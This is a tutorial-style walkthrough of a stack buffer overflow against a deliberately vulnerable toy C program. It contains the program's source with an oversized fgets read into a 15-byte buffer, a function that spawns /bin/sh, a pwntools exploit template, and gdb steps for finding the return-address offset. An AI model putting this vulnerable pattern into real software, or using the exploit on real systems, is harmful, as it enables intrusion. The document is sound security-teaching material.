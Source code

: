 * Code:
```c
#include <stdio.h>
#include <stdlib.h>

void getName(){
	char name[15] = {0}; // !! Our buffer is only 15 characters... but: !!


	printf("What's your name? ");
	fgets(name, 100, stdin); // !! We are reading 100 characters despite only being able to store 15 characters !!
	printf("Cool name %s!", name);

}


void main(){
	getName();
}

void openShell(){
	system("/bin/sh");
}

```
* Decompiling in Ghidra, we get the following code for all the user defined functions:
```c
void getName(void){
  undefined8 local_17;
  undefined4 local_f;
  undefined2 local_b;
  undefined local_9;
  
  local_17 = 0;
  local_f = 0;
  local_b = 0;
  local_9 = 0;
  printf("What\'s your name? ");
  fgets((char *)&local_17,100,stdin);
  printf("Cool name %s!",&local_17);
  return;
}

void main(void){
  getName();
  return;
}


void openShell(void){
  system("/bin/sh");
  return;
}
```
* Take note that the `getName` function is calling `fgets` and taking in 100 characters, while our buffer is only of size 15.
	* Technically, this limits how much we can overwrite the stack (while `gets` would let us write as much as we want, but 100 bytes should be enough for what we want.

* Stack:
```
---------------------------
|   main Return Address   | ↓️  
---------------------------
|     main Saved RBP      | ↓
---------------------------
| getName Return Address  | ↓
---------------------------
|   getName Saved RBP     | ↓
---------------------------
| getName 'name' Variable | ↓
---------------------------
| openShell Return Address| ↓
---------------------------
|   openShell Saved RBP   | ↓
---------------------------
```
* Notice the stack grow downwards
	* Every stack frame always starts with the return address, then the frame pointer
	* The return address is where the computer goes at the end of the function


* First, we want to be able to make the program crash. If we can do that, we can make it crash how we want to make the program do something malicious.

# Writing the exploit
### Boilerplate exploit code
```python3
from pwn import *
p = process('./program.elf')
e = ELF('./program.elf')

offset = rbp - locationOfInput
addressToJumpTo = p64(e.symbols['openShell']) # p32 or p64 is based on if it is a 32 or 64 bit program. use `file` or `checksec` on binary to check

payload = b''
payload += b'A'*offset
payload += addressToJumpTo


p.sendline(payload)
p.interactive()
```

### Exploit process
* Preface: I highly suggest having [gef](https://gef.readthedocs.io/en/master/) installed for this. I will be using it.

1. Run `gdb buf1` to start the binary in a dynamic debugger
2. Run `disas main` to look at the main function to get the following output:
```bash
Dump of assembler code for function main:
   0x00000000004011a7 <+0>:	push   rbp
   0x00000000004011a8 <+1>:	mov    rbp,rsp
   0x00000000004011ab <+4>:	mov    eax,0x0
   0x00000000004011b0 <+9>:	call   0x401142 <getName>
   0x00000000004011b5 <+14>:	mov    eax,0x0
   0x00000000004011ba <+19>:	pop    rbp
   0x00000000004011bb <+20>:	ret    
End of assembler dump.

```
	* Here, we can see on offset <+9> from the main, there is a call to func `getName`
3. Disassemble `getName` with `disas getName` to get the following output:
```bash
Dump of assembler code for function getName:
   0x0000000000401142 <+0>:	push   rbp
   0x0000000000401143 <+1>:	mov    rbp,rsp
   0x0000000000401146 <+4>:	sub    rsp,0x10
   0x000000000040114a <+8>:	mov    QWORD PTR [rbp-0xf],0x0
   0x0000000000401152 <+16>:	mov    DWORD PTR [rbp-0x7],0x0
   0x0000000000401159 <+23>:	mov    WORD PTR [rbp-0x3],0x0
   0x000000000040115f <+29>:	mov    BYTE PTR [rbp-0x1],0x0
   0x0000000000401163 <+33>:	lea    rdi,[rip+0xe9a]        # 0x402004
   0x000000000040116a <+40>:	mov    eax,0x0
   0x000000000040116f <+45>:	call   0x401040 <printf@plt>
   0x0000000000401174 <+50>:	mov    rdx,QWORD PTR [rip+0x2ec5]        # 0x404040 <stdin@GLIBC_2.2.5>
   0x000000000040117b <+57>:	lea    rax,[rbp-0xf]
   0x000000000040117f <+61>:	mov    esi,0x64
   0x0000000000401184 <+66>:	mov    rdi,rax
   0x0000000000401187 <+69>:	call   0x401050 <fgets@plt>
   0x000000000040118c <+74>:	lea    rax,[rbp-0xf]
   0x0000000000401190 <+78>:	mov    rsi,rax
   0x0000000000401193 <+81>:	lea    rdi,[rip+0xe7d]        # 0x402017
   0x000000000040119a <+88>:	mov    eax,0x0
   0x000000000040119f <+93>:	call   0x401040 <printf@plt>
   0x00000000004011a4 <+98>:	nop
   0x00000000004011a5 <+99>:	leave  
   0x00000000004011a6 <+100>:	ret    
End of assembler dump.
```
4. Look for where we input into the buffer. We can see that it is calling `fgets` at offset <+69> from the main
5. We want to break immediately after the input to inspect the stack, so we can set a breakpoint at the offset right after the input with `b *getName + 74`
6. Run the binary in gdb with `r`
7. Input an 8-byte string. Typically we use all uppercase As, so I'm using `AAAAAAAA`
	* This should trigger our breakpoint
8. Now, we have to inspect the stack. We can first find the location of our input with `search-pattern AAAAAAAA`
	* This gives us the following:
```bash
[+] Searching 'AAAAAAAA' in memory
[+] In '[heap]'(0x405000-0x426000), permission=rw-
  0x4056b0 - 0x4056b8  →   "AAAAAAAA" 
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rw-
  0x7fffffffdfd1 - 0x7fffffffdfd9  →   "AAAAAAAA" 
```
* The start of the address of the string is `0x7fffffffdfd1` 


9. We can run `i f` to look at information on the current frame. We get the following:
```bash
Stack level 0, frame at 0x7fffffffdff0:
 rip = 0x40118c in getName; saved rip = 0x4011b5
 called by frame at 0x7fffffffe000
 Arglist at 0x7fffffffdfe0, args: 
 Locals at 0x7fffffffdfe0, Previous frame's sp is 0x7fffffffdff0
 Saved registers:
  rbp at 0x7fffffffdfe0, rip at 0x7fffffffdfe8
```
	* The rip is at `0x7fffffffdfe8`
10. We can get our offset by subtracting these: `0x7fffffffdfe8 - 0x7fffffffdfd1`, which is 23 bytes

